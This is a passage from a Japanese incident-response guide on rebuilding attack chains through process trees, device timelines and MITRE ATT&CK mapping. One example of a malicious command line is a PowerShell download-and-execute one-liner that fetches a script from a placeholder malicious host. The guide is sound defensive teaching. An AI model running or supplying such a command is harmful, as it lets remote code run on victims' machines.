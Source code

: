 ## 3. 攻撃チェーン再構築：攻撃の全体像把握

### 3.1 プロセスツリー分析

**親子プロセスの関係性把握**

典型的な攻撃フローの例：
```
outlook.exe（メール受信）
└── winword.exe（Word文書を開く）
    └── powershell.exe（マクロからPowerShell実行）
        └── suspicious_file.exe（不審なファイル実行）
            └── cmd.exe（システムコマンド実行）
```

**異常なプロセス関係の検出**
- `explorer.exe` から直接 `powershell.exe` が起動（通常のユーザー操作では稀）
- `winword.exe` から `cmd.exe` が起動（文書アプリからコマンド実行は異常）
- システムプロセスから未知の実行ファイルが起動

**コマンドライン引数の分析**
各プロセスの起動パラメータから攻撃手法を特定：

悪意のあるコマンドライン例：
```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "IEX(New-Object Net.WebClient).DownloadString('http://malicious-site.com/script.ps1')"
```

### 3.2 デバイスタイムライン調査

**時系列イベントの完全な把握**
最大6ヶ月間のデバイス上のすべてのアクティビティを時系列で確認

**効果的なフィルタリング戦略**
1. **実行前イベント**（-2時間）：ファイルの到着経路を特定
   - メール受信、ウェブダウンロード、USB接続
2. **実行時イベント**（±30分）：直接的な影響を把握
   - プロセス実行、ファイル作成、ネットワーク通信
3. **実行後イベント**（+24時間）：二次的な影響を調査
   - 追加ファイルのダウンロード、横展開の試行

**重要なイベントタイプ**
- **ファイルイベント**：作成、変更、削除、実行
- **ネットワークイベント**：外部通信、内部横展開
- **レジストリイベント**：設定変更、永続化
- **認証イベント**：ログイン試行、権限昇格

### 3.3 MITRE ATT&CK フレームワークマッピング

検出されたイベントを標準的な攻撃手法に分類：

**主要な戦術（Tactics）と技術（Techniques）**

**初期アクセス（TA0001）**
- T1566.001: スピアフィッシング（添付ファイル）
- T1566.002: スピアフィッシング（リンク）
- T1091: リムーバブルメディア
